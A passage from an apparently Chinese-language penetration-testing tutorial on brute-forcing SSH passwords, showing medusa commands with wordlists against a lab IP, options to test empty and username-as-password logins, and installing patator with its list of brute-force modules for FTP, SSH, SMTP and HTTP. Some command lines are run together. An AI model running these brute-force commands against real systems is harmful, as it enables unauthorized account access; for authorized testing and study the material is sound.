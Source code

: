```
medusa -M ssh -h192.168.157.131 -u root -P newpass.txt -Z h1u1.
```

**5.破解某个IP地址主机破解成功后立刻停止，并测试空密码以及与用户名一样的密码**

```
medusa -M ssh -h 192.168.157.131 -u root-P /root/newpass.txt -e ns -F
```

执行效果如图6所示，通过命令查看字典文件newpass.txt，可以看到root密码位于第8行，而在破解结果中显示第一行就破解成功了，说明先执行了“-e ns”参数命令，对空密码和使用用户名作为密码来进行破解。



[![6.png](https://image.3001.net/images/20180108/15153723107479.png!small)](https://image.3001.net/images/20180108/15153723107479.png)

图6使用空密码和用户名作为密码进行破解

技巧：加-O  ssh.log 可以将成功破解的记录记录到ssh.log文件中。

## 四、使用patator暴力破解SSH密码

### 1.下载并安装patator



```
git clone https://github.com/lanjelot/patator.gitcd patatorpython setup.py install
```



### 2.使用参数

执行./patator.py即可获取详细的帮助信息



> Patator v0.7(<https://github.com/lanjelot/patator>)
>
> Usage: patator.py module –help

可用模块:

  \+ ftp_login     : 暴力破解FTP

  +ssh_login     : 暴力破解 SSH

  +telnet_login  : 暴力破解 Telnet

  +smtp_login    : 暴力破解 SMTP

  +smtp_vrfy     : 使用SMTP VRFY进行枚举

  +smtp_rcpt     : 使用 SMTP RCPTTO枚举合法用户

  +finger_lookup : 使用Finger枚举合法用户

  +http_fuzz     : 暴力破解 HTTP

  +ajp_fuzz      : 暴力破解 AJP

